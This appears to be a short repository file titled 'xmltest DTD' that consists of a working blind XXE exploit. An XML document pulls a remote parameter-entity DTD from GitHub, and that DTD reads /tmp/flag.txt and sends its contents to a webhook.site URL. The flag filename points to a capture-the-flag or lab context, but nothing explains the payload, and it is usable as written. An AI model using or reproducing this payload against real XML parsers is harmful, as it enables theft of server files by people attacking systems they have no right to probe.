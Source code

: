 # xmltest DTD

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://raw.githubusercontent.com/AssassinUKG/xmltest/main/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

<!ENTITY % data SYSTEM "file:///tmp/flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://webhook.site/8d45ea7d-beda-44d6-b41d-11a38284a81b/?%data;'>">

